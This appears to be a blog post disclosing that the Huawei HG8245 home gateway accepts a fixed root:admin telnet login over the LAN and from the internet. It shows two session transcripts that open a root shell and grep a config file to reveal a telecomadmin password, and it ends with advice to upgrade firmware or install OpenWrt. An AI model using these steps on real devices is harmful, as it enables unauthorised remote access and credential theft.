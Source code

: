```yaml
---
layout: post
title:  HG8245 - Internet Backdoor and Remote Access
author: eka
tags:
- HG8245
- Huawei
- ONT
- Wifi Router
---
```


Hackers are very unlikely to break in to SOHO network from serial port, like in [this post](2015/05/07/hg8245-root-password-to-reveal-hidden-menu.html). This post is showing you that HG8245 can be exploited to get root access from the internet. The root password is permanently stored in the flash ROM and cannot be changed.

The setup was very easy. One computer was connected to HG8245 through a LAN cable. Then I ran telnet and use root:admin access. Voila, connection was established! The next commmand was easy, call the <code>shell</code>.

<!--more-->

<pre><code>telnet 192.168.1.1
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.

Welcome Visiting Huawei Home Gateway
Copyright by Huawei Technologies Co., Ltd.

Login:root
Password:*****
WAP>shell

BusyBox v1.4.1 (2011-07-29 10:25:20 HKT) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

WAP(Dopra Linux) # grep telecomadmin /mnt/jffs2/hw_ctree.xml
&lt;X_HW_WebUserInfoInstance InstanceID="2" UserName="telecomadmin" Password="nE7jA%5m" UserLevel="0" Enable="1"/&gt;
WAP(Dopra Linux) # </code></pre>

Alright... alright... probably because it is local, LAN access. What about telnetting from the internet? First, connect the HG8245 to your ISP provider and find its IP address. Then telnetting...

<pre><code>telnet 183.x.x.x
Trying 183.x.x.x...
Connected to 183.x.x.x.
Escape character is '^]'.

Welcome Visiting Huawei Home Gateway
Copyright by Huawei Technologies Co., Ltd.

Login:root
Password:*****
WAP>shell

BusyBox v1.4.1 (2011-07-29 10:25:20 HKT) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

WAP(Dopra Linux) # grep telecomadmin /mnt/jffs2/hw_ctree.xml
&lt;X_HW_WebUserInfoInstance InstanceID="2" UserName="telecomadmin" Password="nE7jA%5m" UserLevel="0" Enable="1"/&gt;
WAP(Dopra Linux) # </code></pre>

Unbelievable! Super scary! Too easy to break in! Anyone owns one of this ONT should try to upgrade to the latest firmware. Better yet, install OpenWrt!
